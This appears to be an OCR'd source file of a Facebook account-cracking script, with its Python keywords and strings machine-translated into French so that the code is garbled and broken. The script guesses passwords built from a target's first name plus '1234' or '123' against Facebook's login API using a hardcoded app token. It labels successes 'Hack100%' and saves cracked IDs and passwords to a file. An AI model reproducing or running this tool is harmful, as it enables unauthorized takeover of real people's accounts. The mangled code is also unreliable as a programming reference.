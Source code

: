 	jalan ('\ 033 [1; 91mYOUSUF démarrer le clonage Attendre ...')
	imprimer "\ 033 [1; 92m ● ══════════════════◄►══════════════════ ●" 

	def main (arg):
		cekpoint global, oks
		utilisateur = arg
		essayer:
			os.mkdir ('out')
		sauf OSError:
			passer #Dev: rana
		essayer:
			a = requests.get ('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads (a.text)												
			pass1 = b ['first_name'] + '1234'												
			data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email_FR =" & mot_de_personnel = " ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load (données)												
			si 'access_token' dans q:
				x = requests.get ("https://graph.facebook.com/" + utilisateur + "? access_token =" + q ['access_token'])
				z = json.loads (x.text)
				imprimer '\ x1b [1; 94m [✓] \ x1b [1; 92mHack100% 💉' '											
				print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mNom \ x1b [1; 91m ✯ \ x1b [1; 92m' + b ['nom']											
				print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mID \ x1b [1; 91m ✯ \ x1b [1; 92m' + utilisateur											
				print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mMot de passe \ x1b [1; 91m✯ \ x1b [1; 92m' + passe1 + '\ n'											
				oks.append (utilisateur + pass1)
                       autre:
			        si 'www.facebook.com' dans q ["error_msg"]:
				    imprimer '\ x1b [1; 94m [❥] \ x1b [1; 94mPoint de contrôle' '
				    print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mNom \ x1b [1; 94m ✯ \ x1b [1; 95m' + b ['nom']
				    print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mID \ x1b [1; 94m ✯ \ x1b [1; 95m' + utilisateur
				    print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mMot de passe \ x1b [1; 94m✯ \ x1b [1; 95m' + passe1 + '\ n'
				    cek = open ("out / super_cp.txt", "a")
				    cek.write ("ID:" + utilisateur + "Pw:" + pass1 + "\ n")
				    cek.close ()
				    cekpoint.append (utilisateur + pass1)
                                autre:
				    pass2 = b ['first_name'] + '123'										
                                    data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email_FR =" & utilisateur + mot de passe = 2 " ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load (données)												
			            si 'access_token' dans q:	
				            x = requests.get ("https://graph.facebook.com/" + utilisateur + "? access_token =" + q ['access_token'])
				            z = json.loads (x.text)
				            imprimer '\ x1b [1; 94m [✓] \ x1b [1; 92mHack100% 💉' '											
				            print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mNom \ x1b [1; 91m ✯ \ x1b [1; 92m' + b ['nom']											
				            print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mID \ x1b [1; 91m ✯ \ x1b [1; 92m' + utilisateur								
				            print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mMot de passe \ x1b [1; 91m✯ \ x1b [1; 92m' + passe2 + '\ n'											
				            oks.append (utilisateur + pass2)
                                    autre:
			                   si 'www.facebook.com' dans q ["error_msg"]:
				               imprimer '\ x1b [1; 94m [❥] \ x1b [1; 94mPoint de contrôle' '
				               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mNom \ x1b [1; 94m ✯ \ x1b [1; 95m' + b ['nom']
				               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mID \ x1b [1; 94m ✯ \ x1b [1; 95m' + utilisateur
				               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mMot de passe \ x1b [1; 94m✯ \ x1b [1; 95m' + passe2 + '\ n'
				               cek = open ("out / super_cp.txt", "a")